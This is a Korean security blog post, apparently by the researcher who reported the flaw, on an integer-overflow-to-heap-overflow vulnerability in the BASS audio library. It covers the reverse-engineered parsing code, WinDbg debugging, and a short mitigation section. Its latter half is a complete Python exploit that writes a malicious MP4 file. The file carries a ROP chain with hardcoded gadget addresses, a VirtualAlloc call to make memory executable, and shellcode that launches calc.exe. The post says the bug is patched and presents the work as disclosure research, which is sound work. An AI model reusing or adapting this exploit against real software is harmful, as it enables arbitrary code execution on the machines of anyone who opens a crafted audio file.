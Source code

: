 # Audio Library vulnerability analysis

3-4년전에 찾아서 제보했던 오디오 라이브러리에 대한 취약점 분석글입니다.

BASS는 MP3,ACC,M4P,FLAC,OGG,WAV 등 여러가지 확장자를 지원하는 오디오 라이브러리입니다. 다수 프로그램이 현재까지도 사용하고 있습니다.



## 취약점 분석

### 개요

Audio File을 파싱하던중  data 태그부분에서 integer overflow가 발생합니다. integer overflow를 통해 보다 작은 값을 힙할당 하게 되어 Heap overflow로 이어집니다.


### 분석

![image-20201117134210220](/assets/2020-11-26-audio_lib_exploit/image-20201117134210220.png) 

*sub_110249B6 (strlen)

*sub_11001009 (heap alloc)

*sub_110031E6 (File Read)

첫번째 박스에서 v4가 파일에서 읽어온 값입니다. (v4-7+3)&0xFC만큼 스택을 할당하고 파일에서 읽어와 해당스택에 저장합니다. 그리고 두번째 박스에서 data 태그를 파싱할때 힙할당시 계산되는 사이즈부분에서 검증미흡으로 integer overflow가 발생하게 됩니다.

v66은 파일에서 가져온 값이며, v8은 첫번째 박스에서 할당한 스택에 있는 내용의 길이입니다. 둘의 값을 잘 조절하면, 0xffffffff의 값을 넘기게 하여 v66보다 작은값을 할당 할 수 있습니다. 

v66-16 사이즈만큼 파일 데이터를 읽오다 sub_110031E6 내부에서 Heap overflow가 발생하게 됩니다.




### Exploit

![image-20201117140035807](/assets/2020-11-26-audio_lib_exploit/image-20201117140035807.png)

sub_110031E6 내부에서 qmemcpy로  파일내용을 복사한 이후에, sub_11003749가 호출됩니다.



![image-20201117140119996](/assets/2020-11-26-audio_lib_exploit/image-20201117140119996.png)

sub_11003749 함수에서 (*(a1+0x30)) 함수포인터가 호출되게 됩니다. 이때 Heap overflow로 인해 *(a1+0x30)의 값을 마음대로 조작 할 수 있게 되어 EIP 컨트롤을 할 수 있게 됩니다.

![image-20201117141031393](/assets/2020-11-26-audio_lib_exploit/image-20201117141031393.png)

WinDbg를 통해 디버깅을 진행해보았습니다. 함수 포인터를 호출할때, 스택상황을 보면, ESP에서 0x48만큼 떨어진거리에 아까 스택할당후 저장한 파일데이터가 존재하는것을 확인 할 수 있습니다.  해당부분에 ROP Chain을 구상하고,  "add esp,0x~~;ret" 와 같은 가젯을 사용하여 ROP Chain을 실행시켰습니다.



![image-20201117141227737](/assets/2020-11-26-audio_lib_exploit/image-20201117141227737.png)



Virtual_alloca API를 통해 rwx 권한을 주고, 그공간에 쉘코드를 복사하고 점프하여 실행시키는 ROP Chain을 작성하였습니다.



![image-20201117141641705](/assets/2020-11-26-audio_lib_exploit/image-20201117141641705.png)

BASS 라이브러리를 사용하고 A사 프로그램에서 테스트 하였습니다. (패치완료됨)

익스플로잇 파일을 읽으면 쉘코드(calc.exe)가 실행되는것을 볼 수 있습니다. 



### Exploit Code

```python
from struct import *

p32 = lambda x : pack("<L",x)

loop_cpy = ""
sub_eax = ""

shellcode = "\x90"*0x30 + "\x31\xdb\x64\x8b\x7b\x30\x8b\x7f\x0c\x8b\x7f\x1c\x8b\x47\x08\x8b\x77\x20\x8b\x3f\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x89\xdd\x8b\x34\xaf\x01\xc6\x45\x81\x3e\x43\x72\x65\x61\x75\xf2\x81\x7e\x08\x6f\x63\x65\x73\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x89\xd9\xb1\xff\x53\xe2\xfd\x68\x63\x61\x6c\x63\x89\xe2\x52\x52\x53\x53\x53\x53\x53\x53\x52\x53\xff\xd7\xeb\xfe" + "\x90\x90"

#rop_gadget
cpy = 0x6350cbbc # mov dword ptr [eax], ecx ; pop esi ; ret
pop_ecx = 0x635070f2 
inc_eax = 0x63506ad8
jmp_eax = 0x63506dad # push eax ; ret
add_esp_13c = 0x63503f0b# : add esp, 0x13c ; ret   0x13c-0x48
virtual_alloc = 0x6350f0a4
ppppr = 0x63507389 # pop edi ; pop esi ; pop ebx ; pop ebp ; ret
pop_eax = 0x63507228 #: pop eax ; ret
push_ecx_ptr = 0x6070fff1 #: push dword ptr [ecx] ; add byte ptr [eax], al ; ret 0xc
mov_eax_ebx = 0x63507484 #: mov eax, ebx ; pop esi ; pop ebx ; pop ebp ; ret
sub_eax_20 = 0x6350db86 #: sub eax, 0x20 ; pop ebx ; ret

for i in range(0,len(shellcode),4):
	loop_cpy += p32(pop_ecx)
	loop_cpy += shellcode[i:i+4]
	loop_cpy += p32(cpy)
	loop_cpy += "\x90\x90\x90\x90"
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)
	loop_cpy += p32(inc_eax)

rop_chain = p32(mov_eax_ebx)
rop_chain += "\x90"*12            
rop_chain +=  p32(pop_ecx)
rop_chain += p32(virtual_alloc)
rop_chain += p32(push_ecx_ptr)
rop_chain += "\x90"*0xc
rop_chain += p32(ppppr)
rop_chain += p32(0)
rop_chain += p32(0x10000) # size
rop_chain += p32(0x1000)
rop_chain += p32(0x40) # execution
rop_chain += "\x90"*0x10
rop_chain += loop_cpy

for k in range(0,4,1):
	sub_eax += p32(sub_eax_20)
	sub_eax += "\x90\x90\x90\x90"

rop_chain += sub_eax
rop_chain += p32(jmp_eax)

header = "\x00\x00\x00\x08"
header += "\x66\x74\x79\x70" # file signature
header += "\x00\x00\x00\x09"   #  0x10 > 0x11   break pass
header += "\x69\x6C\x73\x74" # ilst
header += "\x00\x00\xAf\xff"  # 1 read size
header += "\x6E\x61\x6D\x65" # name
header += "\x90\x90\x90\x90" # dummy 

rop_space = "\x90"*0xf0 + p32(add_esp_13c) + "\x90"*0x13c 
for k in range(0,0x25,1):
	rop_space += p32(add_esp_13c)*0xf0

rop_space += rop_chain # 23c
rop_space += "\x90"*(0xAff3-len(rop_space))

header += rop_space

data_header = "\xff\xff\x72\xeb"
data_header += "\x64\x61\x74\x61"
data = "\x90\x90\x90" + p32(add_esp_13c)*(0xfd0/4)

f = open("exploit.mp4","w")
payload = header + data_header + data 

f.write(payload)
f.close()

```



### 대응방안

integer overflow가 발생하지 않게 연산할때 오버플로우를 검증 하는코드를 추가 합니다.

